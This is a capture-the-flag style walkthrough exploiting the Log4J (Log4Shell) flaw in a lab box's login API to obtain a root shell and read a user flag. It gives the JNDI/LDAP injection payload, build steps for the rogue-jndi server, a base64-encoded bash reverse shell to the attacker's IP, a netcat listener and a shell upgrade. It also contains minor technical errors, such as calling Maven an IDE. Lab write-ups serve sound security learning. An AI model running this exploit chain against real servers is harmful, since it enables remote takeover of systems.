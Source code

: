 # Log4J Exploit

## <mark style="color:red;">Log4J vulnerability EXPLOIT</mark>

> This Log4J vulnerability can be exploited by injecting operating system commands (OS Command Injection), which is a web security vulnerability that allows an attacker to execute arbitrary operating system commands on the server that is running the application and typically fully compromise the application and all its data.&#x20;

To determine if this is the case, we can use FoxyProxy after making a POST request to the /api/login

We have to input our payload into the **remember** parameter.

Because the POST data is being sent as a JSON object and because the payload contains brackets {} , in order to prevent it from being parsed as another JSON object we enclose it inside brackets " so that it is parsed as a string instead.

<figure><img src="../../.gitbook/assets/Screenshot from 2025-01-27 10-17-06.png" alt=""><figcaption></figcaption></figure>

We input the payload into the remember field as shown above so that we can identify an injection point if one exists. If the request causes the server to connect back to us, then we have verified that the application is vulnerable. &#x20;

{% hint style="info" %}
<mark style="color:orange;">**JNDI**</mark> is the acronym for the **Java Naming and Directory Interface API** . By making calls to this API, applications locate resources and other program objects. A resource is a program object that provides connections to systems, such as database servers and messaging systems.&#x20;

<mark style="color:orange;">**LDAP**</mark> is the acronym for **Lightweight Directory Access Protocol** , which is an open, vendor-neutral, industry standard application protocol for accessing and maintaining distributed directory information services over the Internet or a Network.
{% endhint %}

The default port that LDAP runs on is port 389&#x20;

```
. ${jndi:ldap://{Tun0 IP Address}/whatever}
```

After we hit "send" the "Response" pane will display the response from the request. The output shows us an error message stating that the payload is invalid, but despite the error message the payload is actually being executed.

We will use tcpdump on port 389 , which will monitor the network traffic for LDAP connections.&#x20;

```
sudo tcpdump -i tun0 port 389

--------------------------------------------------------------------------------
sudo: Run this via root also known as admin.

tcpdump: Is the program or software that is Wireshark except, it's a command line
version.

-i: Selecting interface. (Example eth0, wlan, tun0)
port 389: Selecting the port we are listening on.
```

{% hint style="warning" %}
tcpdump is a data-network packet analyzer computer program that runs under a command line interface. It allows the user to display TCP/IP and other packets being transmitted or received over a network to which the computer is attached. sudo tcpdump -i tun0 port 389 sudo: Run this via root also known as admin. tcpdump: Is the program or software that is Wireshark except, it's a command line version. -i: Selecting interface. (Example eth0, wlan, tun0) port 389: Selecting the port we are listening on.
{% endhint %}

* The tcpdump output shows a connection being received on our machine. This proves that the application is indeed vulnerable since it is trying to connect back to us on the LDAP port 389.

### <mark style="color:blue;">Payload</mark>

We will have to install Open-JDK and Maven on our system in order to build a payload that we can send to the server and will give us Remote Code Execution on the vulnerable system

{% hint style="info" %}
Open-JDK is the Java Development kit, which is used to build Java applications. Maven on the other hand is an Integrated Development Environment (IDE) that can be used to create a structured project and compile our projects into jar files .
{% endhint %}

These applications will also help us run the rogue-jndi Java application, which starts a local LDAP server and allows us to receive connections back from the vulnerable server and execute malicious code.

```
sudo apt-get install maven
```

Once we have installed the required packages, we now need to download and build the Rogue-JNDI Java application.

```sh
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
mvn package
```

This will create a .jar file in rogue-jndi/target/ directory called RogueJndi-1.1.jar .&#x20;

Now we can construct our payload to pass into the RogueJndi-1-1.jar Java application.&#x20;

To use the Rogue-JNDI server we will have to construct and pass it a payload, which will be responsible for giving us a shell on the affected system. We will be Base64 encoding the payload to prevent any encoding issues.&#x20;

{% code overflow="wrap" fullWidth="true" %}
```sh
echo 'bash -c bash -i >&/dev/tcp/{Your IP Address}/{A port of your choice} 0>&1' | base64
```
{% endcode %}

After the payload has been created, start the Rogue-JNDI application while passing in the payload as part of the --command option and your tun0 IP address to the --hostname option.&#x20;

For example:&#x20;

{% code fullWidth="true" %}
```sh
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING HERE}|
{base64,-d}|{bash,-i}" --hostname "{YOUR TUN0 IP ADDRESS}
```
{% endcode %}

Now that the server is listening locally on port 389 , let's open another terminal and start a Netcat listener to capture the reverse shell.&#x20;

```
nc -lvp 4444
```

Going back to our intercepted POST request, let's change the payload to

```sh
 ${jndi:ldap://{Your Tun0 IP}:1389/o=tomcat} and click Send
```

After sending the request, a connection to our rogue server is received and the following message is shown.&#x20;

```
Sending LDAP ResourceRef result for o=tomcat with javax.el.ELProcessor payload
```

Once we receive the output from the Rogue server, a shell spawns on our Netcat listener and we can upgrade the terminal shell using the following command.&#x20;

```
script /dev/null -c bash
```

The above command will turn our shell into an interactive shell that will allow us to interact with the system more effectively. From here we can navigate to /home/Michael/ and read the user flag.&#x20;

***
